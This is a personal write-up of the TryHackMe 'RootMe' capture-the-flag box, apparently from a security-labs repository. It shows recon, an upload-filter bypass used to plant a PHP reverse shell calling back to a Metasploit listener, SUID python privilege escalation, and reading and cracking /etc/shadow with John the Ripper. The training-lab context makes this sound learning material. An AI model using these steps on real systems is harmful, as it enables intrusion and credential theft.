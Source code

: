 ## TryHackMe - RootMe
> Completed 14th June  2022.

This ended up being a very straight forward boot2root box that required skills that I had picked up on in previous labs. I used this as n opportunity to reinforce some of which I had learned.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Metasploit
- JohnTheRipper

---
### Methodology
#### Objectives/Flags
1. user.txt
2. root.txt

---
#### Reconnaissance
Started off by enumerting the target.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As a webserver was running, I navigated to it in a web browser to see what it's about and what can I further enumerate. While browsing the site's source code I ran `Gobuster` in the background to fuzz out directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP> -w <Wordlist> > <output.txt>
```
```
//uploads             (Status: 301) [Size: 314] [--> http://<TargetIP>/uploads/]
//panel               (Status: 301) [Size: 312] [--> http://<TargetIP>/panel/]  
```

![](/TryHackMe/RootMe/images/Root_001.jpg)
![](/TryHackMe/RootMe/images/Root_002.jpg)

As these two directories were revealed, navigating to them showed me that the site is capable of file uploads and that the upload directory could be accessed. I got to work preparing a reverse shell using `metasploit`.

#### Weaponization 
N/A

#### Delivery
The reverse shell code I used can be found [here](https://github.com/pentestmonkey/php-reverse-shell). My initial thought was that if the site uses `.php` files as webpages, I should be successful in getting a reverse shell connection if my rshell payload was also in `.php`. While poking at the upload form, we can see that `.php` files are forbidden from being uploaded via extension filtering. Using what I had learned back in my run through [Vulnversity](https://github.com/dozmert/Security-Labs/blob/main/TryHackMe/Vunversity/readme.md)I renamed the file extension to `.phphtml` as first attempt to bypass the filter. The upload was successful.

![](/TryHackMe/RootMe/images/Root_003.jpg)
![](/TryHackMe/RootMe/images/Root_004.jpg)

#### Exploitation
With a successful upload, I was able to see my reverse shell file in the site's upload file directory. I started up `Metasploit` to get a listener going.
```bash
sudo msfdb init && msfconsole
  use exploit/multi/handler
  set lhost <AttackerIP>
  set lport <AttackerListeningPort>
  run
```
From here I could execute the payload through the site which successfully establishes a connection to my listener.
```bash
$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
At this point I started walking the file directory of the box hoping to find some loot.
```bash
cd /var/www/
  cat user.txt
    THM{***}
```
I had found my first flag in the web-app's directory. While I was here, I decided to exfiltrate `Website.zip` to my local machine to not only see if I could find anything of interest but perhaps reverse engineer and repurpose in the future. Additional directory exploring revealed that the user `www-data` had access to `passwd` which I copy+pasted onto my localhost.
```bash
cat /etc/passwd
```
As I didn't have the correct permissions to view `/etc/shadow` I started to search for binary manipulations that could escalate my viewing privileges. The box's walkthrough recommended [GTFObins](https://gtfobins.github.io/gtfobins/python/) which was a new resource for me. After some research I found that by running a command through python we could manipulate our session to give us a higher viewing privilege.
```bash
cd/usr/bin/
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
![](/TryHackMe/RootMe/images/Root_005.jpg)
From here we could now view the shadow file which I also copy+paste onto my localhost.
```bash
cat /etc/shadow
```
Later in my exploration of the system I had found indications that `JohnTheRipper` was installed. I tried to dig through its files to see if there was past use recorded however yielding nothing, I decided to use it on my local machine to reduce my footprint. For the wordlist I used `rockyou.txt`.
![](/TryHackMe/RootMe/images/Root_006.jpg)
```bash
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=<wordlist> unshadow.txt > <output.txt>
```
After a short while the passwords are revealed for user `root` and `test`. I could now login as a root.
```bash
su
  su: must be run from a terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$
```
Trying to run `su` wasn't going to work as we had manipulated our session to be `sh`. By using a command, we had previously learned, we can re manipulate python to spawn us a new `bash` terminal sessions.
```bash
su
  su
  Password: P**********
root@rootme:/#
root@rootme:/# id
  uid=0(root) gid=0(root) groups=0(root)
```
We are now successfuly logged in as the `root` user and we could now loot the final flag.
```bash
root@rootme:/# cat /root/root.txt
cat /root/root.txt
  THM{***}
```

---
### After-action
#### What I've learned
After completing this box in less time than some other boxes I felt I was reinforcing my knowledge for the boot2root process. New things I learned specifically was just additional vectors for privilege-escalation which were tricky to get my head around but manipulating binaries is all it takes. I'll hold onto [GTFObins](https://gtfobins.github.io/) as a future resource.

#### What I would've done differently
If I was to take on this box again, I would like to have a better understanding of why the `python` binary could be manipulated in such a way and develop a method to prove the vulnerability by checking for versions etc.
